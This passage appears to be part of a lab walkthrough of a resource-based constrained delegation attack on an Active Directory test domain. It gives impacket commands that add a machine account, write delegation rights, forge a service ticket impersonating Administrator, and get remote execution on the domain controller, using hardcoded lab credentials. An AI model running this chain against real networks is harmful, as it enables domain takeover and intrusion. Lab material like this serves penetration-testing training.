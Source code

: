 ```
impacket-addcomputer -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/stannis.baratheon:Drag0nst0ne'
```
![screenshot](pics/RBCD_addcomputer.png)

- Add delegation write on our target from X (rbcd$)

```
impacket-rbcd -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
```
![screenshot](pics/rbcd_add.png)

- Now X (rbcd$) got delegation permission on our target, you can now do an s4u2self query followed by an S4u2proxy.
- This will result in an administrator permission on kingslanding.

```
impacket-getST -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 'kingslanding.sevenkingdoms.local' 'sevenkingdoms.local/rbcd$:rbcdpass'

export KRB5CCNAME=./Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache

impacket-wmiexec -k -no-pass @kingslanding.sevenkingdoms.local 
```
![screenshot](pics/rbcd_get_tgt.png)
![screenshot](pics/rbcd_wmiexec.png)
